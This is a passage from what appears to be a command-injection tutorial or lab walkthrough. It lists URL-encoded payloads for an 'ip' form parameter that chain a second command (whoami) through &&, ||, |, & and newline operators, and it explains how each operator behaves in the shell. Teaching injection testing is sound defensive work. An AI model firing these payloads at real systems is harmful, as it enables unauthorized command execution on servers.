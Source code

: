 **3. Response Timing:**
```
Normal ping response: ~0.1 seconds
Injection response: ~0.2 seconds (additional command execution time)
```

---

## Alternative Injection Operators

### Testing Multiple Operators

**Once basic injection is confirmed, test other operators:**

**1. AND Operator (&&):**
```http
ip=127.0.0.1%26%26%20whoami
```

**2. OR Operator (||):**
```http
ip=invalid_ip%7c%7c%20whoami
```

**3. Pipe Operator (|):**
```http
ip=127.0.0.1%7c%20whoami
```

**4. Background Operator (&):**
```http
ip=127.0.0.1%26%20whoami
```

**5. Newline Operator (\n):**
```http
ip=127.0.0.1%0awhoami
```

### Operator-Specific Behaviors

**Semicolon (;) - Command Chaining:**
```bash
# Both commands execute sequentially
ping -c 1 127.0.0.1; whoami
# Output: [ping results] + [whoami results]
```

**AND (&&) - Success-Dependent:**
```bash
# Second command only if first succeeds
ping -c 1 127.0.0.1 && whoami
# Output: [ping results] + [whoami results] (if ping succeeds)
```

**OR (||) - Failure-Dependent:**
```bash
# Second command only if first fails
ping -c 1 invalid_ip || whoami  
# Output: [ping error] + [whoami results]
```
